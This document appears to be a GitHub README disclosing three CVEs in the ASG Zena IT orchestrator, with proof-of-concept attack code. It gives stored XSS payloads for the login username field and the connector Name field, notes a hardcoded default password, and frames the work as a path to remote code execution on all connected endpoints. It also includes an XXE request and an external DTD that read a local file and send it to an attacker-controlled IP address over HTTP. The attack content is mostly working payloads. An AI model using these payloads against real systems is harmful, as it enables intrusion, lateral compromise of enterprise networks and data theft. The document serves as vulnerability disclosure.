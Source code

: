 # Zena

CVE-2021-45026 XSS

CVE-2021-45025 Cleartext Storage of Sensitive Information in a Cookie

## Zena CookieMonster: POC code for XSS to RCE

The CookieMonster POC is a proof of concept for achieving Remote Code Execution on the Zena Server and ALL of it's connected endpoints.
Since zena is an IT orchastrator that is primarly used on an enterprises internal network it often is connected to many devices and can allow a rapid pivot and compromise of many devices as well as a pivot to other internal domains.

## Basic XSS payload details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):

• Type: Stored XSS – Unauthenticated

• Pages Affected: /zena/index.html

Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):

• Type: Stored XSS

• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.

Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```


![image](https://user-images.githubusercontent.com/81385287/171973915-0ff4e8b4-2d39-4558-a794-a7dae6e4935d.png)
![image](https://user-images.githubusercontent.com/81385287/171973946-9073ad46-e200-437a-80f8-5f11669b462a.png)
![image](https://user-images.githubusercontent.com/81385287/171973970-c2f7eefe-4cfe-4a64-ad27-4691324c1952.png)

## Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena

CVE-2021-45024 XXE

Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:

```

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>
```



External DTD code hosted on attacker server as xxe.dtd:

```

<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">

```

![image](https://user-images.githubusercontent.com/81385287/171972899-f595ccbc-f45b-4368-8944-f470960ebad9.png)



